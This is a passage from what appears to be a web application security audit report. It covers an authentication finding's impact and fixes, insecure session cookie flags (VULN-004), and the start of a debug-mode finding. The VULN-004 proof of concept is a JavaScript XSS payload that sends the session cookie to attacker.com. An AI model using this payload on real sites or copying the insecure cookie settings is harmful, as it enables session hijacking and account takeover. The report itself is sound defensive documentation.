 #### Impact
- Account takeover
- Mass credential theft
- Admin access compromise

#### Remediation
1. Implement generic error messages
2. Add rate limiting and account lockout
3. Use Argon2 password hashing
4. Implement CAPTCHA
5. Add multi-factor authentication

---

### 3.4 Session Management Issues (High)

**Vulnerability ID**: VULN-004  
**OWASP Category**: A07:2021 – Identification and Authentication Failures  
**CWE**: CWE-614  
**CVSS Score**: 7.0 (High)  

#### Description
Session cookies lack security flags, making them vulnerable to theft.

#### Configuration Issues
```python
SESSION_COOKIE_HTTPONLY = False  # Allows JavaScript access
SESSION_COOKIE_SECURE = False    # Sent over HTTP
# SESSION_COOKIE_SAMESITE not set
```

#### Proof of Concept
```javascript
// XSS payload to steal session
var sessionId = document.cookie.match(/sessionid=([^;]+)/)[1];
fetch('http://attacker.com/steal?session=' + sessionId);
```

#### Remediation
1. Set `SESSION_COOKIE_HTTPONLY = True`
2. Set `SESSION_COOKIE_SECURE = True`
3. Set `SESSION_COOKIE_SAMESITE = 'Lax'`

---

### 3.5 Security Misconfiguration (Medium)

**Vulnerability ID**: VULN-005  
**OWASP Category**: A05:2021 – Security Misconfiguration  
**CWE**: CWE-489  
**CVSS Score**: 5.3 (Medium)  

#### Description
Debug mode is enabled in production, exposing sensitive information.
